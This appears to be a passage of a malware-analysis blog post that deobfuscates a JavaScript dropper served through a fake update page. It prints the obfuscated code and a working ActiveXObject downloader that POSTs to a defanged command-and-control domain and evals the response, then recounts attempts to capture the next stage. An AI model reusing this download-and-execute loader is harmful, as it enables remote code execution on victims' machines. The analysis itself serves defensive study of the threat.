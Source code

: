 ```javascript

function a0_0x3813df(_0x2ec6b2, _0x13fab8) {
    var a0_0x31b991 = {
        _0x2c5813: 0x1c5
    };
    return a0_0x340a(_0x2ec6b2 - -a0_0x31b991._0x2c5813, _0x13fab8);
}

function a0_0x4e8ff2(_0x28f744, _0x3ece8b) {
    var a0_0x136d26 = {
        _0x117216: 0x54
    };
    return a0_0x340a(_0x28f744 - -a0_0x136d26._0x117216, _0x3ece8b);
}
var a0_0x2aad8d = a0_0x312db7(0x4d, 0x44) + a0_0x219ccd(0x1f8, 0x1fe) + 'xt';

function a0_0x2177ce(_0x3d89be, _0x3cb99a) {
    var a0_0x592702 = {
        _0x871279: 0x275
    };
    return a0_0x340a(_0x3cb99a - a0_0x592702._0x871279, _0x3d89be);
}
var a0_0x25de01 = a0_0x5259a4[a0_0x2aad8d];
this[a0_0x35d339](a0_0x25de01);
```

And here is what it boils down to:
```javascript
var req = new this['ActiveXObject']('MSXML2.XMLHTTP');
req['open']('POST', "hxxps[://]1e5c[.]internal[.]blessedfoodshalalmeat[.]com/ajaxTimeout", false);
req['send']("qjFBPkIVCAVpqGtz0fqzot4+8QBb4gsQOC6XwFuVfQ==");
var response = req['responseText'];
eval(response);
```

I modified the `eval` to be a `WScript.Echo` command and executed it, because... YOLO, right?

Unfortunately, because I lack foresight, I accidentally clicked the "OK." on the prompt that popped up and only saw the next stage payload appear for a minute. Then it was gone into the ether. I tried executing the script again, but much like the original ad I was served, it isn't re-downloading the payload. This is super disappointing because I saw that the code was executing some WMIC commands and performing a host survey to send back to the C2.

The next day, I re-flashed my laptop with a fresh installation of Windows, went to a coffee shop and tried again. I was able to get the malicious blob served to me from the first site, however, it didn't transition into the malicious "Updated needed!" page. I went ahead and tried executing the last payload I had (the `ActiveXObject` downloader), but I was getting a weird error (`.\bad.js(3, 1) msxml3.dll: The system cannot locate the resource specified.`). After some googling to figure this out, I realized it's telling me that it can't resolve the DNS for the malicious domain. At first I thought it might be the coffee shop WiFi doing some filtering, but after using an online NS lookup tool, I realized that the DNS records were deleted some time last night. This must have been in response to the next stage having been downloaded. It's unclear whether deleting the DNS records was automatic or manual.

